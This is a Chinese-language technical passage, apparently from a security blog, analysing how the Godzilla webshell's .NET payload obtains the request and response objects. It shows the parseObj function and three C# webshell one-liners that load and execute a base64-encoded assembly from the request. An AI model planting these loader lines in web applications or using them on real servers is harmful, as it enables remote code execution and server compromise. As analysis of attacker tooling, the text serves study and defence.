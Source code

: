 

哥斯拉则对此进行了兼容处理，不再采用Page对象，而采用了兼容性更好的HttpContext



![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640784688148-28effe7d-2674-4e6a-bc7d-cd2d36a1ec2b.png)



其实入口参数的本质就是获取到当前的request跟response对象。

吸取了jsp的经验，一开始parseObj函数内置了三种方法：

```cpp
public void parseObj(Object obj)
        {
            if (obj.GetType().IsArray)//直接数组传入
            {
                Object[] data = (Object[])obj;
                this.Request = (HttpRequest)data[0];
                this.Response = (HttpResponse)data[1];
            }
            else
            {
                try
                {
                    Page page = (Page)obj;//传入Page对象
                    this.Response = page.Response;
                    this.Request = page.Request;
                }
                catch (Exception)
                {
                    HttpContext context = (HttpContext)obj;//传入HttpContext对象
                    this.Response = context.Response;
                    this.Request = context.Request;
                }
            }
        }
```

所以在shell中用以下写法均可连接

```cpp
//利用Page对象
System.Reflection.Assembly.Load(Convert.FromBase64String(Payload)).CreateInstance(xxx).Equals(this);

//利用Context对象
System.Reflection.Assembly.Load(Convert.FromBase64String(Payload)).CreateInstance(xxx).Equals(Context);

//利用数组
System.Reflection.Assembly.Load(Convert.FromBase64String(Payload)).CreateInstance(xxx).Equals(new object[] { Request, Response });
```
